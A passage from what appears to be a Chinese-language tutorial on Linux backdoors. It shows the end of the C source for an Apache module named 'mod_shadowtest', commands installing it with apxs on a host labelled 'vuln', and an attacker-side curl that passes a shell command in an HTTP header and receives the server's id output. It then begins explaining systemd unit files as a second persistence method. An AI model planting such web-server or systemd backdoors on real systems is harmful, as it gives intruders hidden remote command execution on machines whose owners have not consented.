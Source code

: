 ```c
}

/* Dispatch list for API hooks */
module AP_MODULE_DECLARE_DATA shadowtest_module = {
    STANDARD20_MODULE_STUFF,
    NULL,                  /* create per-dir    config structures */
    NULL,                  /* merge  per-dir    config structures */
    NULL,                  /* create per-server config structures */
    NULL,                  /* merge  per-server config structures */
    NULL,                  /* table of config file commands       */
    shadowtest_register_hooks  /* register hooks                      */
};
```



```
[root@vuln ~]# apxs -i -a -c mod_shadowtest.c
......
chmod 644 /usr/lib/apache2/modules/mod_shadowtest.so
[preparing module `shadowtest' in /etc/apache2/mods-available/shadowtest.load]
Module shadowtest already enable

[root@vuln ~]# systemctl restart apache2
```

攻击机执行

```
[shadowflow@ShadowOS ~]% curl -H 'Shadowtest: id' 'http://172.16.42.151/x'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## 2. Systemd后门

### 2.1 Systemd服务

Systemd服务基本格式

```
[Unit]   
Description=test   		# 简单描述服务
After=network.target    # 描述服务类别，表示本服务需要在network服务启动后在启动
Before=xxx.service      # 表示需要在某些服务启动之前启动，After和Before字段只涉及启动顺序，不涉及依赖关系。

[Service] 
Type=forking     		# 设置服务的启动方式
User=USER        		# 设置服务运行的用户
Group=USER       		# 设置服务运行的用户组
WorkingDirectory=/PATH	# 设置服务运行的路径(cwd)
KillMode=control-group  # 定义systemd如何停止服务
Restart=no        		# 定义服务进程退出后，systemd的重启方式，默认是不重启
ExecStart=/start.sh    	# 服务启动命令，命令需要绝对路径（采用sh脚本启动其他进程时Type须为forking）
   
[Install]   
WantedBy=multi-user.target  # 多用户
```
